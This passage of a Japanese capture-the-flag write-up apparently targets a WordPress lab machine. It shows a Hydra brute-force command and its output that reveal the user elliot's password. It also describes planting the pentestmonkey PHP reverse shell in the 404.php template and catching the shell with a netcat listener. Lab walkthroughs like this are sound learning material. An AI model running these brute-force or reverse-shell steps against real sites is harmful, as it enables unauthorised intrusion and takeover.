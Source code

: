 ユーザー名「elliot」が存在することが分かった。  
エラー表示が「The password you entered・・・」に変わったので、続いてパスワードブルートフォース。

#### パスワードブルートフォース

```shell
$ sort fsocity.dic | uniq > fsocity-uniq.dic
$ hydra 192.168.11.16 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.11.16%2Fwp-admin%2F&testcookie=1:H=Cookie\: s_fid=12D63D3389C939B6-27B51C3E15FF28A1; s_nr=1733107592965; wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_sq=%5B%5BB%5D%5D:The password " -l elliot -P ./fsocity-uniq.dic
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-02 02:05:01
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://192.168.11.16:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.11.16%2Fwp-admin%2F&testcookie=1:H=Cookie\: s_fid=12D63D3389C939B6-27B51C3E15FF28A1; s_nr=1733107592965; wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_sq=%5B%5BB%5D%5D:The password
[STATUS] 2856.00 tries/min, 2856 tries in 00:01h, 8596 to do in 00:04h, 16 active
[80][http-post-form] host: 192.168.11.16   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-02 02:07:09
```

elliot のパスワードは「ER28-0652」と判明。  
→ WordPress の管理画面にログイン可能になった。

```test
WordPress 4.3.34 running
```

ちなみに、WordPress 専用のコマンドもある。

```shell
wpscan --url 192.168.11.16 --passwords fsocity-uniq.dic --usernames elliot
```

### リバースシェル

HackTricks で、404.php テンプレートを更新してコードを仕込めることを知った。（管理権限必要）
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress  
リバースシェルのコードを埋め込んだ。下記のコードの IP を変えただけ。  
（後述のとおり、もっとシンプルな 1 行のコードで十分）  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

ブラウザで存在しないページにアクセスして、404.php をトリガー。  
http://192.168.11.16/2024/12/06/test/

```shell
$ nc -lvp 1234
listening on [any] 1234 ...
192.168.11.16: inverse host lookup failed: Unknown host
connect to [192.168.11.9] from (UNKNOWN) [192.168.11.16] 55837
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 05:54:27 up  4:10,  0 users,  load average: 0.00, 0.01, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
```